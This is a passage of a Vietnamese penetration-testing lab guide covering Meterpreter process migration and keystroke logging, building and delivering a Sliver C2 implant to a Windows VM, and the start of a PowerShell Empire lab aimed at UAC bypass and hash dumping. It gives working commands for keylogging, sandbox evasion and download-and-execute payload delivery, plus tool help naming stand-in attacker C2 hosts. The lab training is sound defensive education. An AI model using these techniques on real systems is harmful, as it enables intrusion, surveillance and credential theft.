Tiếp theo, chụp ảnh màn hình hệ thống bị khai thác và lưu lại với tên `/tmp/screen.jpg`:



Meterpreter sẽ chụp ảnh màn hình, quá trình này có thể mất vài giây.

Tiếp theo, khởi chạy trình duyệt Firefox trong máy ảo Linux của bạn (bằng cách nhấp vào biểu tượng của nó trên thanh công cụ phía trên). Trong Firefox, hãy truy cập vào vị trí của:

```bash
file:///tmp/screen.jpg
```



Bây giờ chúng ta sẽ di chuyển DLL Meterpreter trên máy bị khai thác từ một tiến trình này sang tiến trình khác. Chúng ta sẽ chuyển từ tiến trình `Icecast2.exe` sang tiến trình `explorer.exe` trên máy Windows của mình. Chúng ta sử dụng Explorer vì nó sẽ tiếp tục chạy miễn là người dùng vẫn đăng nhập.

Tiếp theo, quay lại Meterpreter và lấy số ID của tiến trình hiện tại.

```bash
getpid
```

Bây giờ, hãy lấy danh sách các tiến trình để tìm ID tiến trình của Explorer. Chúng ta có thể sử dụng lệnh `ps` với tùy chọn `-S` (chữ S viết hoa) để tìm kiếm.

```bash
ps -S explorer.exe
```



Chúng ta có thể nhảy đến tiến trình explorer.exe bằng ID tiến trình, hoặc chúng ta có thể chỉ định tên bằng -Ntùy chọn.

Tiếp theo, để bắt đầu quá trình đó, chúng ta sử dụng lệnh `migrate` với số ID tiến trình đã nêu ở trên.

```bash
migrate -N explorer.exe
```



> Nếu quá trình di chuyển thất bại (nhấp để mở rộng)
> Nếu quá trình chuyển đổi của bạn thất bại (và điều này rất có thể xảy ra), bạn sẽ phải thiết lập lại phiên Meterpreter. Trước tiên, hãy tắt phiên hiện tại bằng cách gõ lệnh `exit`. Sau đó, đảm bảo Icecast đang chạy và chỉ cần gõ lại lệnh `run`.

```bash
getpid
```

Đó phải là số được liên kết với `explorer.exe`. Nếu vậy, bạn vừa chuyển đổi giữa các tiến trình. Quá trình chuyển đổi có thể gặp lỗi. Nếu tiến trình mục tiêu bị sập, điều đó không sao. Bạn có thể khai thác lại hệ thống mục tiêu bằng cách thoát khỏi phiên Meterpreter đã chết của mình bằng lệnh `CTRL-C` hoặc `exit`. Sau đó khởi động lại Icecast. Tại dấu nhắc `msf >`, chạy lại lệnh `run`.

### 7. Keystroke Logging

Khởi chạy Notepad trong máy ảo Windows của bạn (không phải thông qua Meterpreter). Trong giao diện đồ họa, nhấp vào menu Bắt đầu, gõ "notepad", sau đó khởi chạy.

Quay lại máy ảo Linux và phiên meterpreter của bạn rồi chạy lệnh đó `keyscan_start`.



Tiếp theo, trong Windows, hãy nhập một vài đoạn văn bản vào Notepad. Viết một ghi chú về mật khẩu của bạn, ví dụ như `my password is TungDvan dep trai`.



Bây giờ hãy quay lại Meterpreter và xuất các thao tác gõ phím đã thu được ra màn hình.

```bash
keyscan_dump
```



Sau đó hãy dừng phần mềm ghi lại thao tác gõ phím:

```bash
keyscan_stop
```



```bash
exit
```

Để hoàn tất bài thực hành, hãy tắt Notepad trên Windows. Sau đó, hãy dừng Icecast.

## Phần kết luận

Trong bài thực hành này, chúng ta đã thấy một lỗ hổng bảo mật phía máy chủ được khai thác nhắm vào một dịch vụ lắng nghe dễ bị tổn thương. Bằng cách khai thác lỗ hổng đó bằng Metasploit, chúng ta đã có thể tải payload Meterpreter với stager reverse_http vào bộ nhớ của máy mục tiêu. Sau đó, chúng ta đã khám phá nhiều tính năng của Meterpreter, bao gồm khả năng khám phá hệ thống tập tin, chạy các chương trình (chẳng hạn như `shell`), cung cấp các kênh liên lạc giữa Đầu vào Chuẩn và Đầu ra Chuẩn của chương trình, chụp ảnh màn hình, di chuyển các tiến trình và ghi nhật ký các thao tác gõ phím. Thực sự, Meterpreter là một thành phần payload rất mạnh mẽ trong kho vũ khí của chuyên gia kiểm thử xâm nhập.

# Lab 2.3. Sliver

## Mục tiêu

Để làm quen với Sliver và các khả năng của nó

Để thiết lập chế độ chơi nhiều người và làm quen với các tính năng của chế độ này.

Để tạo trình lắng nghe và tạo payloads để kết nối với trình lắng nghe.

Để sử dụng một số khả năng của thiết bị cấy ghép Sliver, cụ thể là khả năng thực thi lắp ráp.

## Thiết lập phòng thí nghiệm

Các máy ảo được sử dụng:

- Slingshot Linux

- Windows 10

Để thực hiện bài thực hành này, hãy đảm bảo bạn có thể ping từ máy ảo Slingshot Linux đến máy ảo Windows và ngược lại.

```bash
ping WINDOWS_ETHERNET0_ADDRESS
# Thay thế WINDOWS_ETHERNET0_ADDRESSbằng địa chỉ cục bộ của máy ảo Windows của bạn (KHÔNG phải địa chỉ dạng như 10.254.25X.X).
```

```bash
ping LINUX_ETH0_ADDRESS
# Thay thế LINUX_ETH0_ADDRESSbằng địa chỉ của giao diện eth0 trên máy ảo Linux của bạn (KHÔNG phải địa chỉ như 10.254.25X.Xtrên tun0).
```

## Hướng dẫn thực hành từng bước

### 1. Bắt đầu Sliver

Xóa toàn bộ dữ liệu Sliver (Vì bài LAB này CA đã cấp từ lâu nên bị hết hạn, chúng ta sẽ xóa hết đê cấp lại CA mới):

```bash
rm -rf ~/.sliver
```

Sliver gồm hai thành phần, máy khách và máy chủ. Đầu tiên, hãy khởi động máy chủ trong máy ảo Slingshot của bạn.

```bash
sudo sliver-server
```

Bạn có thể điều khiển mọi thứ từ đây, nhưng trước tiên hãy thiết lập chế độ chơi nhiều người.

Đến bước này, bạn sẽ thấy một thông báo nhắc nhở có dạng như sau:

```bash
[server] sliver >
```

Hãy xem phần trợ giúp.

```bash
help
```

```bash
[server] sliver > help

Commands:
=========
  clear       clear the screen
  exit        exit the shell
  help        use 'help [command]' for command help
  monitor     Monitor threat intel platforms for Sliver implants
  wg-config   Generate a new WireGuard client config
  wg-portfwd  List ports forwarded by the WireGuard tun interface
  wg-socks    List socks servers listening on the WireGuard tun interface


Generic:
========
  aliases           List current aliases
  armory            Automatically download and install extensions/aliases
  background        Background an active session
  beacons           Manage beacons
  builders          List external builders
  canaries          List previously generated canaries
  cursed            Chrome/electron post-exploitation tool kit (∩｀-´)⊃━☆ﾟ.*･｡ﾟ
  dns               Start a DNS listener
  env               List environment variables
  generate          Generate an implant binary
  hosts             Manage the database of hosts
  http              Start an HTTP listener
  https             Start an HTTPS listener
  implants          List implant builds
  jobs              Job control
  licenses          Open source licenses
  loot              Manage the server's loot store
  mtls              Start an mTLS listener
  prelude-operator  Manage connection to Prelude's Operator
  profiles          List existing profiles
  reaction          Manage automatic reactions to events
  regenerate        Regenerate an implant
  sessions          Session management
  settings          Manage client settings
  stage-listener    Start a stager listener
  tasks             Beacon task management
  update            Check for updates
  use               Switch the active session or beacon
  version           Display version information
  websites          Host static content (used with HTTP C2)
  wg                Start a WireGuard listener


Multiplayer:
============
  kick-operator  Kick an operator from the server
  multiplayer    Enable multiplayer mode
  new-operator   Create a new operator config file
  operators      Manage operators


For even more information, please see our wiki: https://github.com/BishopFox/sliver/wiki
```

Hầu hết các lệnh chúng ta cần xem xét đều nằm trong danh mục Chung. Danh mục Nhiều người chơi chỉ khả dụng trên máy chủ. Nó cho phép bạn cấu hình và thêm người dùng mới (người điều hành hoặc người chơi) để có thể làm việc cùng nhau như một nhóm.

Hãy cấu hình chế độ nhiều người chơi và sau đó kết nối với tư cách là máy khách. Trước tiên, chúng ta cần bật chế độ nhiều người chơi bằng cách chạy lệnh `multiplayer`.

```bash
multiplayer
```

Kết quả: 

```bash
[server] sliver > multiplayer

[*] Multiplayer mode enabled!

[server] sliver >
```

Các tùy chọn chơi nhiều người chỉ khả dụng trên máy chủ, không có trên bất kỳ máy khách nào.

Vì chúng ta đang chạy trên máy chủ, nên chúng ta có thể kết nối dễ dàng chỉ bằng cách chạy ứng dụng khách. Thay vào đó, chúng ta sẽ tạo một người dùng và kết nối bằng chứng chỉ để mô phỏng việc có nhiều người cùng sử dụng hệ thống.

Trước tiên, chúng ta cần biết các tùy chọn để tạo người chơi mới. Hãy chạy lệnh `new-operator -h` này để xem hướng dẫn.

```bash
new-operator -h
```



Hãy tạo một người dùng mới. Chúng ta sẽ sử dụng tên `tungdvan1`, nhưng bạn có thể sử dụng tên người dùng ưa thích của mình. Đối với địa chỉ IP, hãy sử dụng địa chỉ của giao diện tun0 (`10.254.25X.X`).

```bash
new-operator -n tungdvan1 -s /tmp/ -l 10.130.10.128
```



Mở một cửa sổ terminal mới rồi thực hiện các bước sau.

Bạn có thể chia sẻ tập tin này `cfg` với người chơi mới. Nếu muốn thử, hãy tạo một người chơi mới và chia sẻ tập tin với người kia (trong lớp học trực tuyến, bạn có thể làm điều này qua Slack). Chúng tôi khuyên bạn nên thực hiện việc này trong cuộc thi CTF cuối khóa nếu bạn đang làm việc nhóm. Trong TH này minh sẽ tạo thêm một máy ảo sec560 với địa chỉ IP là `10.130.10.129`.

Kiểm tra tệp cấu hình bằng lệnh ls -l.

```bash
ls -l /tmp/*.cfg
```



Chúng ta đã chạy máy chủ với quyền root để nó có thể lắng nghe trên cổng TCP 443. Điều này cũng có nghĩa là bất kỳ tệp nào được tạo bởi tiến trình này cũng sẽ thuộc sở hữu của root. Tệp này thậm chí còn bị hạn chế quyền truy cập hơn nữa, chỉ chủ sở hữu (root) mới có thể đọc được. Chúng ta cần thay đổi quyền truy cập của tệp để có thể đọc được nó.

```bash
sudo chown sec560:sec560 /tmp/*.cfg
```

Chúng ta hãy thực hành quy trình nhập khẩu trên hệ thống cục bộ của mình. Trước tiên, chúng ta sẽ xem xét các tùy chọn với sliver-client.

```bash
sliver-client -h
```



Nhập tệp cấu hình bằng lệnh phụ `import`.

```bash
sliver-client import /tmp/tungdvan1_10.130.10.128.cfg
```



Giờ chúng ta có thể kết nối với máy chủ. Chạy lệnh `sliver-client`.

```bash
sliver-client
```



Sau khi chọn đúng người dùng và nhấn Enter, bạn sẽ thấy lời nhắc `sliver >`. Hãy chú ý cửa sổ terminal trên máy chủ của bạn, nó sẽ hiển thị `[*] tungdvan1 has joined the game`.



### 2. Tạo Listener và Payload Implant

Chạy lệnh này trên máy khách (`sliver >`) chứ KHÔNG phải trên máy chủ (`[server] sliver >`).

Chúng ta hãy bắt đầu bằng cách tạo một trình lắng nghe https.

```bash
https -h
```



Trong thực tế, chúng ta sẽ thiết lập chứng chỉ (hoặc chứng chỉ Let's Encrypt) và tạo tên miền. Hiện tại, chúng ta chỉ sử dụng địa chỉ IP.

Chúng ta hãy bắt đầu với một trình lắng nghe https đơn giản.

```bash
https
```



Hãy để ý rằng nó đã nói như vậy `job #2`. Chúng ta hãy cùng xem xét các công việc.

```bash
jobs
```



Công việc đầu tiên chạy trên cổng 31337 là dành cho người dùng từ xa (multiplayer). Chúng tôi cũng có trình lắng nghe https đang chạy trên cổng mặc định 443.

Giờ chúng ta đã cấu hình xong trình lắng nghe để nhận kết nối. Hãy cùng xem cách xây dựng dữ liệu gửi đi.

```bash
generate -h
```

```bash
Command: generate <options>
About: Generate a new sliver binary and saves the output to the cwd or a path specified with --save.

++ Command and Control ++
You must specificy at least one c2 endpoint when generating an implant, this can be one or more of --mtls, --wg, --http, or --dns, --named-pipe, or --tcp-pivot.
The command requires at least one use of --mtls, --wg, --http, or --dns, --named-pipe, or --tcp-pivot.

The follow command is used to generate a sliver Windows executable (PE) file, that will connect back to the server using mutual-TLS:
        generate --mtls foo.example.com

The follow command is used to generate a sliver Windows executable (PE) file, that will connect back to the server using Wireguard on UDP port 9090,
then connect to TCP port 1337 on the server's virtual tunnel interface to retrieve new wireguard keys, re-establish the wireguard connection using the new keys,
then connect to TCP port 8888 on the server's virtual tunnel interface to establish c2 comms.
        generate --wg 3.3.3.3:9090 --key-exchange 1337 --tcp-comms 8888

You can also stack the C2 configuration with multiple protocols:
        generate --os linux --mtls example.com,domain.com --http bar1.evil.com,bar2.attacker.com --dns baz.bishopfox.com


++ Formats ++
Supported output formats are Windows PE, Windows DLL, Windows Shellcode, Mach-O, and ELF. The output format is controlled
with the --os and --format flags.

To output a 64bit Windows PE file (defaults to WinPE/64bit), either of the following command would be used:
        generate --mtls foo.example.com
        generate --os windows --arch 64bit --mtls foo.example.com

A Windows DLL can be generated with the following command:
        generate --format shared --mtls foo.example.com

To output a MacOS Mach-O executable file, the following command would be used
        generate --os mac --mtls foo.example.com

To output a Linux ELF executable file, the following command would be used:
        generate --os linux --mtls foo.example.com


++ DNS Canaries ++
DNS canaries are unique per-binary domains that are deliberately NOT obfuscated during the compilation process.
This is done so that these unique domains show up if someone runs 'strings' on the binary, if they then attempt
to probe the endpoint or otherwise resolve the domain you'll be alerted that your implant has been discovered,
and which implant file was discovered along with any affected sessions.

Important: You must have a DNS listener/server running to detect the DNS queries (see the "dns" command).

Unique canary subdomains are automatically generated and inserted using the --canary flag. You can view previously generated
canaries and their status using the "canaries" command:
        generate --mtls foo.example.com --canary 1.foobar.com

++ Execution Limits ++
Execution limits can be used to restrict the execution of a Sliver implant to machines with specific configurations.

++ Profiles ++
Due to the large number of options and C2s this can be a lot of typing. If you'd like to have a reusable a Sliver config
see 'help profiles new'. All "generate" flags can be saved into a profile, you can view existing profiles with the "profiles"
command.


Usage:
======
  generate [flags]

Flags:
======
  -a, --arch               string    cpu architecture (default: amd64)
  -c, --canary             string    canary domain(s)
  -d, --debug                        enable debug features
  -O, --debug-file         string    path to debug output
  -G, --disable-sgn                  disable shikata ga nai shellcode encoder
  -n, --dns                string    dns connection strings
  -e, --evasion                      enable evasion features (e.g. overwrite user space hooks)
  -E, --external-builder             use an external builder
  -f, --format             string    Specifies the output formats, valid values are: 'exe', 'shared' (for dynamic libraries), 'service' (see `psexec` for more info) and 'shellcode' (windows only) (default: exe)
  -h, --help                         display help
  -b, --http               string    http(s) connection strings
  -X, --key-exchange       int       wg key-exchange port (default: 1337)
  -w, --limit-datetime     string    limit execution to before datetime
  -x, --limit-domainjoined           limit execution to domain joined machines
  -F, --limit-fileexists   string    limit execution to hosts with this file in the filesystem
  -z, --limit-hostname     string    limit execution to specified hostname
  -L, --limit-locale       string    limit execution to hosts that match this locale
  -y, --limit-username     string    limit execution to specified username
  -k, --max-errors         int       max number of connection errors (default: 1000)
  -m, --mtls               string    mtls connection strings
  -N, --name               string    agent name
  -p, --named-pipe         string    named-pipe connection strings
  -o, --os                 string    operating system (default: windows)
  -P, --poll-timeout       int       long poll request timeout (default: 360)
  -j, --reconnect          int       attempt to reconnect every n second(s) (default: 60)
  -R, --run-at-load                  run the implant entrypoint from DllMain/Constructor (shared library only)
  -s, --save               string    directory/file to the binary to
  -l, --skip-symbols                 skip symbol obfuscation
  -Z, --strategy           string    specify a connection strategy (r = random, rd = random domain, s = sequential)
  -T, --tcp-comms          int       wg c2 comms port (default: 8888)
  -i, --tcp-pivot          string    tcp-pivot connection strings
  -I, --template           string    implant code template (default: sliver)
  -t, --timeout            int       command timeout in seconds (default: 60)
  -g, --wg                 string    wg connection strings

Sub Commands:
=============
  beacon  Generate a beacon binary
  info    Get information about the server's compiler
  stager  Generate a stager using Metasploit (requires local Metasploit installation)
```

Có một vài biện pháp bảo vệ thú vị mà chúng ta có thể sử dụng để cố gắng vượt qua công nghệ hộp cát. Hãy cùng xem xét một vài trong số đó:

- `-w, --limit-datetime`: giới hạn việc thực thi trước thời điểm datetime (tương tự như KillDate trong Empire).

- `-x, --limit-domainjoined`: giới hạn việc thực thi chỉ trên các máy đã tham gia miền.

- `-F, --limit-fileexists`: giới hạn việc thực thi chỉ trên các máy chủ có tệp này trong hệ thống tệp

- `-z, --limit-hostname`: giới hạn việc thực thi chỉ trên tên máy chủ được chỉ định

- `-y, --limit-username`: giới hạn quyền thực thi cho người dùng được chỉ định

Chúng ta sẽ không sử dụng các tùy chọn này, nhưng `-x`, `--limit-domainjoined` là một lựa chọn tốt để vượt qua các biện pháp phòng thủ sandbox đơn giản.

Chúng ta cũng có thể chỉ định một miền "canary" (`-c`, `--canary`). Miền canary được bao gồm trong tệp thực thi, nhưng không được sử dụng cho máy chủ điều khiển (C2). Nó được bao gồm để nếu mục tiêu truy vấn miền đó, bạn có thể biết được rằng ai đó đang nghiên cứu miền đó. Chúng ta sẽ bỏ qua tính năng đó vào lúc này.

Sliver thực hiện mã hóa và làm mờ dữ liệu rất phức tạp. Đây là một tính năng tuyệt vời, nhưng việc tạo ra dữ liệu có thể mất khá nhiều thời gian. Để tăng tốc quá trình thực hành, chúng tôi thường sử dụng `--skip-symbols` để bỏ qua bước này. Tuy nhiên, trong thực tế, bạn sẽ không muốn sử dụng tùy chọn này.

Hãy xây dựng một payload dành cho Windows để kết nối trở lại với listener của chúng ta. Chúng ta cần chỉ định listener và hệ điều hành.

Lệnh này có thể mất đến một phút để tạo ra dữ liệu.

```bash
generate --os windows --skip-symbols --name first2 --http 10.130.10.128
# Thay thế LINUX_ETH0_ADDRESS bằng địa chỉ của giao diện eth0 trên máy ảo Linux của bạn.
# Địa chỉ máy Server
```





Chuyển tệp sang `/home/sec560/`:

```bash
sudo cp /tmp/first2.exe /home/sec560/
```

Hãy cùng xem xét thiết bị cấy ghép mà chúng ta vừa tạo ra.

```bash
implants
```



### 3. Gửi Payload đến hệ thống Windows

Mở một cửa sổ terminal mới để chúng ta có thể tạo một máy chủ gửi dữ liệu đến hệ thống Windows của mình.

Hãy sử dụng Python để phục vụ tập tin này.

```bash
python3 -m http.server
```



Chuyển sang máy chủ Windows của bạn và mở PowerShell. Di chuyển đến màn hình nền và tải xuống tệp.

```bash
cd Desktop
wget http://10.130.10.129:8000/first2.exe -OutFile first.exe
```

Trong PowerShell, hãy xác nhận xem tệp đã được sao chép thành công hay chưa.

```bash
ls first2.exe
```



Tệp tin này có dung lượng khoảng 9MB.

### 4. Thực thi Payload

Trên hệ thống Windows của bạn, hãy nhấp đúp first.exevào màn hình Desktop.

Trên máy chủ Sliver của bạn, bạn sẽ thấy một kết nối được thiết lập.



Hãy xem phiên làm việc với `sessions`.

```bash
sessions
```



Hãy tương tác với phiên bằng cách sử dụng usevà hai ký tự đầu tiên của ID phiên. Trong ví dụ này là 79, nhưng ID của bạn sẽ khác.

```bash
use 79
```



Chúng ta đang trong phiên làm việc.

### 5. Tương tác với Session

Hãy cùng xem các tùy chọn có sẵn trong phiên làm việc của chúng ta bằng cách chạy lệnh này help.

```bash
help
```

```bash
[server] sliver (first2) > help

Commands:
=========
  clear       clear the screen
  exit        exit the shell
  help        use 'help [command]' for command help
  monitor     Monitor threat intel platforms for Sliver implants
  wg-config   Generate a new WireGuard client config
  wg-portfwd  List ports forwarded by the WireGuard tun interface
  wg-socks    List socks servers listening on the WireGuard tun interface


Generic:
========
  aliases           List current aliases
  armory            Automatically download and install extensions/aliases
  background        Background an active session
  beacons           Manage beacons
  builders          List external builders
  canaries          List previously generated canaries
  cursed            Chrome/electron post-exploitation tool kit (∩｀-´)⊃━☆ﾟ.*･｡ﾟ
  dns               Start a DNS listener
  env               List environment variables
  generate          Generate an implant binary
  hosts             Manage the database of hosts
  http              Start an HTTP listener
  https             Start an HTTPS listener
  implants          List implant builds
  jobs              Job control
  licenses          Open source licenses
  loot              Manage the server's loot store
  mtls              Start an mTLS listener
  prelude-operator  Manage connection to Prelude's Operator
  profiles          List existing profiles
  reaction          Manage automatic reactions to events
  regenerate        Regenerate an implant
  sessions          Session management
  settings          Manage client settings
  stage-listener    Start a stager listener
  tasks             Beacon task management
  update            Check for updates
  use               Switch the active session or beacon
  version           Display version information
  websites          Host static content (used with HTTP C2)
  wg                Start a WireGuard listener


Multiplayer:
============
  kick-operator  Kick an operator from the server
  multiplayer    Enable multiplayer mode
  new-operator   Create a new operator config file
  operators      Manage operators


Sliver - Windows:
=================
  backdoor          Infect a remote file with a sliver shellcode
  dllhijack         Plant a DLL for a hijack scenario
  execute-assembly  Loads and executes a .NET assembly in a child process (Windows Only)
  getprivs          Get current privileges (Windows only)
  getsystem         Spawns a new sliver session as the NT AUTHORITY\SYSTEM user (Windows Only)
  impersonate       Impersonate a logged in user.
  make-token        Create a new Logon Session with the specified credentials
  migrate           Migrate into a remote process
  psexec            Start a sliver service on a remote target
  registry          Windows registry operations
  rev2self          Revert to self: lose stolen Windows token
  runas             Run a new process in the context of the designated user (Windows Only)
  spawndll          Load and execute a Reflective DLL in a remote process


Sliver:
=======
  cat                Dump file to stdout
  cd                 Change directory
  chmod              Change permissions on a file or directory
  chown              Change owner on a file or directory
  chtimes            Change access and modification times on a file (timestomp)
  close              Close an interactive session without killing the remote process
  download           Download a file
  execute            Execute a program on the remote system
  execute-shellcode  Executes the given shellcode in the sliver process
  extensions         Manage extensions
  getgid             Get session process GID
  getpid             Get session pid
  getuid             Get session process UID
  ifconfig           View network interface configurations
  info               Get info about session
  interactive        Task a beacon to open an interactive session (Beacon only)
  kill               Kill a session
  ls                 List current directory
  mkdir              Make a directory
  msf                Execute an MSF payload in the current process
  msf-inject         Inject an MSF payload into a process
  mv                 Move or rename a file
  netstat            Print network connection information
  ping               Send round trip message to implant (does not use ICMP)
  pivots             List pivots for active session
  portfwd            In-band TCP port forwarding
  procdump           Dump process memory
  ps                 List remote processes
  pwd                Print working directory
  reconfig           Reconfigure the active beacon/session
  rename             Rename the active beacon/session
  rm                 Remove a file or directory
  rportfwd           reverse port forwardings
  screenshot         Take a screenshot
  shell              Start an interactive shell
  shikata-ga-nai     Polymorphic binary shellcode encoder (ノ ゜Д゜)ノ ︵ 仕方がない
  sideload           Load and execute a shared object (shared library/DLL) in a remote process
  socks5             In-band SOCKS5 Proxy
  ssh                Run a SSH command on a remote host
  terminate          Terminate a process on the remote system
  upload             Upload a file
  whoami             Get session user execution context


For even more information, please see our wiki: https://github.com/BishopFox/sliver/wiki
```

Các lệnh thú vị nhất sẽ nằm trong các danh mục `Sliver - Windows` và `Sliver`.

Trước tiên, hãy tìm hiểu một số thông tin về hệ thống bị xâm nhập.

```bash
getuid
getgid
```



Các lệnh `getuid` và `getgid` trả về SID của người dùng và nhóm tương ứng. Thông tin này không thực sự hữu ích. Lệnh `whoami` tốt hơn nhiều.



Nếu bạn muốn có tất cả thông tin này (và nhiều hơn nữa) chỉ với một lệnh duy nhất, hãy chạy lệnh `info`.

```bash
info
```



Ở đây chúng ta thấy thông tin về người dùng hiện tại và chi tiết về máy chủ.

### 6. Shell

Tương tự như Metasploit, chúng ta có thể truy cập vào giao diện dòng lệnh bằng lệnh `shell` này.

```bash
shell
```



> Khi chạy chương trình, shellbạn sẽ nhận được thông báo rằng đây là hành vi xâm phạm an ninh mạng (OPSEC) nghiêm trọng. Các công cụ phòng thủ được tinh chỉnh để tìm kiếm các tiến trình tạo ra các công cụ thường được các tác nhân độc hại sử dụng, chẳng hạn như CMD và PowerShell.

Như bạn thấy, giờ chúng ta đã có một cửa sổ nhắc lệnh PowerShell tương tác. Chúng ta có thể chạy bất kỳ lệnh PowerShell nào. Chạy lệnh `ls c:\` để xem thư mục gốc của ổ đĩa.

```bash
ls c:\
```



Thoát khỏi cửa sổ dòng lệnh này bằng cách gõ `exit`. Chúng ta sẽ thử một số công cụ khác để tìm hiểu về các hệ thống khác.



### 7. Thực thi Assembly - SharpWMI

Chúng ta sẽ sử dụng một assembly khác như vậy ở cuối phần 2, `Seatbelt! GhostPack` cũng bao gồm các assembly khác. Chúng ta sẽ sử dụng SharpWMI. Để làm điều này, chúng ta cần sử dụng lệnh execute-assemblyvà cung cấp đường dẫn đến SharpWMI.exe trên hệ thống Linux của mình.

```bash
execute-assembly /home/sec560/labs/SharpWMI.exe
```



Bạn nên xem phần trợ giúp của SharpWMI.

Sliver đã chuyển tập tin và thực thi nó trong bộ nhớ. Vì tập tin không bao giờ được ghi vào ổ đĩa, nên các công cụ phòng thủ sẽ khó phát hiện việc thực thi hơn.

Hãy thử nghiệm bằng cách chạy thao tác `loggedon` để lấy danh sách người dùng đã đăng nhập.



> Bạn phải nhập đúng kiểu chữ hoa chữ thường như trên. Linux có hệ thống tập tin phân biệt chữ hoa chữ thường (không giống như Windows).

Chúng ta có thể thấy `SEC560STUDENT\sec560` người dùng cục bộ trên máy ảo Windows của mình. Chúng ta cũng có thể sử dụng điều này để nhắm mục tiêu vào các hệ thống khác. Chúng ta sẽ làm điều này sau trong một bài thực hành về chuyển hướng tấn công!

Một thư viện `C#` tuyệt vời khác là Rubeus (chúng ta sẽ tìm hiểu về công cụ này trong mục 560.5). Những công cụ bổ sung này cho phép chúng ta mở rộng khả năng của công cụ này!

## Phần kết luận

Như chúng ta đã thấy, Sliver là một công cụ mạnh mẽ khác dành cho kiểm thử xâm nhập (và tấn công giả lập). Tính linh hoạt của công cụ cho phép chúng ta dễ dàng tải các thư viện của bên thứ ba và trích xuất thông tin (Metasploit hiện cũng có thể làm được điều này). Một trong những tính năng tuyệt vời nhất là chức năng chơi nhiều người.

# Lab 2.4. Empire

## Mục tiêu

Để sử dụng PowerShell Empire tạo trình lắng nghe trên máy ảo Slingshot Linux và các tác nhân trên máy Windows của bạn, cần cả tác nhân có quyền hạn thấp và tác nhân có quyền hạn cao.

Để xem lại các tính năng OpSec Safe của Empire.

Sử dụng các mô-đun của Empire để cướp bóc một cỗ máy mục tiêu nhằm thu thập thông tin hữu ích.

Sử dụng Empire `privesc/powerup/allchecks` để tìm kiếm các lỗ hổng leo thang đặc quyền cục bộ.

Sử dụng Empire để lừa người dùng vượt qua Kiểm soát Tài khoản Người dùng (UAC) nhằm giành quyền truy cập cao hơn.

Để trích xuất các mã băm từ mục tiêu bằng cách sử dụn  mô-đun `powerdump*` của Empire (Dấu `*` cho biết chúng ta cần một tiến trình có đặc quyền cao, còn được gọi là tiến trình có tính toàn vẹn cao, để chạy mô-đun này).

Tiến hành quét cổng từ một tác nhân Empire.

## Thiết lập phòng thí nghiệm

Các máy ảo được sử dụng:

- Slingshot Linux.

- Windows 10.

Để thực hiện bài thực hành này, hãy đảm bảo rằng bạn có thể ping từ máy ảo Slingshot Linux đến máy tính Windows của mình và ngược lại.

```bash
ping WINDOWS_ETHERNET0_ADDRESS
# Thay thế WINDOWS_ETHERNET0_ADDRESS bằng địa chỉ cục bộ của máy ảo Windows của bạn.
ping LINUX_ETH0_ADDRESS
# Thay thế LINUX_ETH0_ADDRESS ằng địa chỉ của giao diện eth0 trên máy ảo Linux của bạn.
```

## Hướng dẫn thực hành từng bước

### 1. Khởi đầu Empire

Hãy bắt đầu bằng cách chuyển đến thư mục cài đặt Empire trên máy ảo Slingshot:

```bash
cd /opt/empire
```

Chúng ta cần khởi động máy chủ Empire. Chúng ta sẽ làm điều đó bằng cách chạy máy chủ Empire với quyền root.

```bash
sudo ./ps-empire server
```



```bash
root@slingshot:/opt/empire# sudo ./ps-empire server
[*] Loading default config
[*] Loading bypasses from: /opt/empire/empire/server/bypasses/
[*] Loading stagers from: /opt/empire/empire/server/stagers/
[*] Loading modules from: /opt/empire/empire/server/modules/
[*] Loading listeners from: /opt/empire/empire/server/listeners/
[*] Loading malleable profiles from: /opt/empire/empire/server/data/profiles
[*] Searching for plugins at /opt/empire/empire/server/plugins/
[*] Initializing plugin...
[*] Doing custom initialization...
[*] Loading websockify server plugin
[*] Registering plugin with menu...
[*] Initializing plugin...
[*] Doing custom initialization...
[*] Loading Empire C# server plugin
[*] Registering plugin with menu...
[*] Initializing plugin...
[*] Doing custom initialization...
[*] Loading Empire reverseshell server plugin
[*] Registering plugin with menu...
[*] Empire starting up...
[*] Starting Empire RESTful API on 0.0.0.0:1337
[*] Starting Empire SocketIO on 0.0.0.0:5000
[*] Testing APIs
[+] Empire RESTful API successfully started
[+] test-nuvq connected to socketio
[+] Empire SocketIO successfully started
[*] Cleaning up test user
[+] Client disconnected from socketio
[+] Plugin csharpserver ran successfully!
[*] Compiler ready
Server > 
EMPIRE TEAM SERVER | 0 Agent(s) | 0 Listener(s) | 3 Plugin(s)
```

Máy chủ đang hoạt động, hãy mở một cửa sổ terminal mới và kết nối với máy chủ (vẫn là máy đó nhưng mà không root trước).

```bash
cd /opt/empire
sudo ./ps-empire client
```



Chúng ta sẽ bắt đầu bằng cách xem danh sách các lệnh có sẵn trong khung Empire bằng cách gõ `help` và nhấn Enter.

```bash
help
```



Tại đây, bạn có thể thấy các lệnh như `agents` (hiển thị chi tiết về các tác nhân hiện đang được quản lý), `listeners` (cho phép bạn cấu hình và điều khiển trình lắng nghe) và `usemodule` (cho phép bạn chạy một mô-đun thông qua tác nhân trên một máy bị xâm nhập).

### 2. Cấu hình trình lắng nghe

Trước tiên, chúng ta cần cấu hình trình lắng nghe và triển khai tác nhân.

Chúng ta hãy bắt đầu bằng cách lập danh sách người nghe:

```bash
listeners
```



Vì chúng ta chưa cấu hình trình lắng nghe nào, nên hiện tại sẽ không có trình lắng nghe nào đang hoạt động. Nhưng hãy lưu ý rằng lời nhắc của bạn đã thay đổi thành ngữ cảnh `listeners` cho phép chúng ta cấu hình và khởi động một trình lắng nghe sẽ chờ các cuộc gọi lại từ các tác nhân Empire.

Hãy cùng xem lại các lệnh mà chúng ta có trong ngữ cảnh trình lắng nghe. Gõ `help` và nhấn Enter.



Hãy quay lại và cấu hình trình lắng nghe.

```bash
back
```



Để khởi động một trình lắng nghe, chúng ta sử dụng lệnh `uselistener`, theo sau là loại trình lắng nghe mà chúng ta muốn sử dụng. Để xem danh sách các loại trình lắng nghe, hãy nhập `uselistener`(có dấu cách ở cuối) nhưng KHÔNG NHẤN ENTER. Bạn sẽ thấy danh sách các trình lắng nghe có sẵn.



Trong bài thực hành này, chúng ta sẽ sử dụng loại `listener http`, hỗ trợ cả HTTP và HTTPS. Và ngay cả khi chúng ta sử dụng HTTP, quá trình giao tiếp vẫn được mã hóa bằng các khóa mã hóa duy nhất do Empire tạo ra. Hãy cấu hình một listener HTTP, chuyển sang ngữ cảnh của nó và lấy thông tin về nó.

```bash
uselistener http
```

```bash
(Empire) > uselistener http

 Author       @harmj0y
 Description  Starts a http[s] listener (PowerShell or Python) that uses a GET/POST
              approach.
